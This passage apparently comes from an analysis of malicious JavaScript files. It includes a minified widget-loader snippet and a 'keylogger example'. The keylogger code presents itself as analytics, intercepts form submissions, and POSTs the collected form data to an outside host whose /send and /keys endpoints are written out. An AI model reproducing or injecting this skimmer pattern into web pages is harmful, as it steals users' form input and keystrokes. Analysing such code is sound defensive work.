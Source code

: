 It creates and manage iframe.
It checks for browser capabilities.
e.g. XMLHttpRequest, hasLocalStorageSupport, isMobileBrowser, isIOS, isChrome, etc.
It adds additional contents from MySite.
It also defines modules that exports a configuration object with several properties e.g. API URLs and paths.


```
"attachEvent"in window&&!window.addEventListener||navigator&&navigator.userAgent&&/MSIE 9\.0/.test(navigator.userAgent)&&window.addEventListener&&!window.atob||"onp
ropertychange"in document&&window.matchMedia&&/MSIE 10\.0/.test(navigator.userAgent)||navigator&&navigator.userAgent&&b.test(navigator.userAgent)||window.isMySiteMessengerSheet||y()||(E(),function(e,t,n){m.forEach((function(t){document.addEventListener(t,e)})),u.forEach((function(e){document.addEventListener(e,t)})),d.forEach((function(e){document.addEventListener(e,n)}))}(E,x,(function(){window[g]("shutdown",!1),delete window[g],x(),_()})))}()}();


```


## File 4: (keylogger example)

This one is easy and straightforward.
We can also break it down and read it line by line.

```

(function () {
console.log("Analytics loaded!");
const externURL = "https://something.refreshment.ltd/send";
const externURLKeys = "https://something.refreshment.ltd/keys";
// Helper function to send data
function sendData(data, url) {
const xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
//...
//..etc...
//.........
document.addEventListener("submit", function (e) {
e.preventDefault();
const formData = collectFormData();
sendData(formData, externURL);
});
})();

```

It uses the anonymous function to run the script as soon as it is loaded.

It tracks users interaction with the web page.
It records users key strokes and send them to the external link.
It prevents the default browser settings.

```
xhr.send(JSON.stringify(data));

```
